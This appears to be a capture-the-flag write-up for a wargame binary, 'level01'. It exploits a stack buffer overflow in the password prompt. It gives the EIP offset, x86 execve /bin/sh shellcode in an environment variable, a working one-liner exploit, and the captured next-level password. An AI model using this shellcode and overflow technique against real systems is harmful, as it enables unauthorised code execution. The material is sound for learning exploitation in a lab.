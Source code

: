 ### step 1: Decompile with Ghidra

- We get the c source code of the program
- The binary is in 32-bits

```
file level01
level01: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=46d63f92a3bb0a950cf71dd3a5a630ade86057ab, not stripped
```

### step 2: Code analysis

- We are first asked a username that is compared to the string `dat_will` in the function `verify_user_name`  
- We are then asked a password that we can exploit with an overflow because 100 chars of stdin are read and stored in `buffer[16]`  


### step 3: Finding the EIP offset

```
( python -c 'print("dat_will")' ; python -c 'print("A" * 80)') | ./level01
```

- The EIP is overwritten at the 80th char, so our buffer will containe 79 bytes + the return address we will use in our exploit   

### step 4: Building the exploit with a Shellcode in Env

#### Shellcode 

```
env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01
```

Our nope sled spans from `0xffffddae` to `0xffffdfae`, so we target an address in the middle : `0xffffdeae`.


#### Finding the address of the shellcode in env

```
env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01
```

```gdb 
b main
r
x/s *((char **)environ + 3)
0xffffdda4:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\...
```
Our shellcode address is : `0xffffdda4`

- Our nopesled starts from `0xffffdda4` and spans over 512 bytes, so we target and address in the middle of the nopesled : `0xffffdeae`.

- We convert `0xffffdeae` in little endian : `\xae\xde\xff\xff`


#### Final Exploit

- Our final exploit is build like this :

```
( python -c 'print("dat_will")' ; python -c 'print("A" * 80 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level01
```

- A shell is opened :

```
whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```